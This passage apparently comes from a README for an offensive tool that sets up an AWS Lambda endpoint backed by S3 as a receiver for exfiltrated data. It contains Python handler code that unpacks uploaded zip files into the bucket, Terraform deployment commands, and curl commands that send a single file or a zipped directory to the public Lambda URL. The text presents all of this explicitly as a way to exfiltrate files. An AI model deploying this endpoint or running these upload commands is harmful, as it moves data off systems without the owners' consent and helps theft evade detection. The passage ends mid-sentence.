 ```python

    except Exception as e:
        return {
            'statusCode': 500,
            'body': f"Error: {str(e)}"
        }

def upload_file_to_s3(file_content, filename):
    """Helper function to upload a file to S3"""
    s3.put_object(Bucket=bucket_name, Key=filename, Body=file_content)

def handle_zip(file_content, zip_filename):
    """Helper function to handle a zip file by extracting and uploading its contents"""
    with io.BytesIO(file_content) as zip_buffer:
        with zipfile.ZipFile(zip_buffer, 'r') as zip_ref:
            for file_info in zip_ref.infolist():
                # Skip directories, only process files
                if not file_info.is_dir():
                    # Extract the file from the zip
                    with zip_ref.open(file_info) as extracted_file:
                        file_data = extracted_file.read()
                        # Upload each file to S3 with its full path
                        upload_file_to_s3(file_data, file_info.filename)

```  

Launch deployment:  
```sh
terraform init && terraform plan && terraform apply
```  
Once the deployment is complete, terraform will output the public lambda url, for example:  
```sh
lambda_function_url = "https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws/"
```  
Now you can proceede to exfiltrate files and directories.
Example for single file:  
```sh
curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_single_file.txt" --data-binary @test_single_file.txt
```  

Example for a directory:
```sh
zip -r test_folder.zip test_folder \
&& curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_folder.zip" --data-binary @test_folder.zip
```  

You can later retrieve all the exfiltrated files from the S3 bucket:  